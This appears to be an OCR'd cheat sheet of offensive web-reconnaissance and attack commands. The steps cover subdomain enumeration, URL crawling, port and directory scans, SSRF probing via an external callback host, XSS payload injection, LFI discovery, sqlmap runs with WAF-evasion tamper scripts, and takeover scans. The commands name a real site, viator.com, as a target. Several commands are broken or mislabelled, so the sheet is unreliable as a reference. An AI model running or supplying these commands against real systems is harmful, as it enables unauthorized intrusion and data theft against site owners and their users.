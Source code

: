 	#sub-domain_ennumiration
subfinder -d viator.com -all  -recursive > subdomain.txt
assetfinder www.example.com | anew assets.txt
amass enum -timeout 60 -d www.target.txt
sublist3r -d www.taget.com
 
	 
	 #active-domain ennumiration 
cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt


	#finding-urls_domain-subdomains
cat alive.txt | gau > param.txt
/root/go/bin/katana -u alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
cat alive.txt | /root/go/bin/katana -o allurls.txt
/root/go/bin/katana -i alive.txt | anew allurls.txt
cat alive.txt | /root/go/bin/waybackurls | anew allurls.txt

	#filter/delete-duplicate-urls
cat allurls.txt | uro | anew filterurls.txt


	#find_js-files_from-urls
cat filterurls.txt | grep ".js$" > jsfiles.txt
cat filterurls.txt | grep "$.js$" > jsfiles.txt
cat filterurls.txt | grep "$.js" > jsfiles.txt

	#find_mulfiple-files
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"

 	
	#scan_open-ports
nabbu -list domain.txt -c 50 -nmap-cli 'nmap -sV -sC' -o nabbufull.txt
nabbu -list domain.txt -c 50 -nmap-cli 'nmap -sVC' -o nabbufull.txt  (-f,-Pn,-SS,-d,-6)


	#directory_bruteforcing
dirsearch -l alive.txt -x 500,200,502,429,404,400 -R 5 --random-agent -t 100 -F -o directory.txt -w (wordlist)
dirsearch  -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json


	#ssrf-in_jsfile-and-aurls
cat alive.txt | gauplus -subs -b png,jpg,jpeg,woff,gif,svg,swf -o ssrfurls.txt
cat allurls | gf redirect | ssrfurls.txt
cat allurls | grep "=" | ssrfurls.txt
	#
cat ssrfurls.txt | grep "="  | /root/go/bin/qsreplace http://www.(burp-colabrattor) | anew ssrf.txt
cat ssrf.txt | httpx-toolkit -fr

	
	#xss_in_urls-jsfiles
subfinder -d viator.com | httpx-toolkit -silent |  /root/go/bin/katana -ps -f qurl | gf xss | /root/go/bin/bxss -appendMode -payload '(payload)' -parameters	
echo https://target.com /root/go/bin/katana -ps -f qurl | gf xss | /root/go/bin/bxss -appendMode -payload '<IMG SRC=`javascript:javascript:alert(1)`>' -parameters
cat allurls.txt | gf xss | xss.txt
python3 XSSstrike -u target.txt 

	#find-lfi
cat  allurls.txt | gf lfi | lfi.txt
/root/go/bin/nuclei -l lfi.txt -tags lfi 

	
	#find_sql-injection
sqlmap -u https://www.target.com/ --crawl=1-8 --risk=1-3, --batch --level=1-5 
sqlmap -u https://www.tager.com/ --dbs --batch --risk 3 --ignore-code 404  --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,randomcase,randomcomments,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
sqlmap -u https://www.target.com/?login=17782


	#subdomain-takeover
python3 corsy.py -i subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
nuclei -list subdomains_alive.txt -t /root/nuclei-tamplets/http/takeovers


	#custom-nuclei-scan
nuclei  -list ~/example/subdomains_alive.txt -tags cve,osint,tech


	#open-redirect
cat allurls.txt | gf redirect | openredirex -p /root/openredirex/payloads.txt
cat allurls.txt | gf redirect | anew redirects.txt


	#jsfiles-vuln
echo www.viator.com | root/go/bin/katana -ps | grep -E "\.js$" | /root/go/bin/nuclei -t /root/nuclei-templates/http/exposures/ -c 30
/root/go/bin/nuclei -l js.txt -t /root/nuclei-templates/http/exposures/ -c 30








 
	

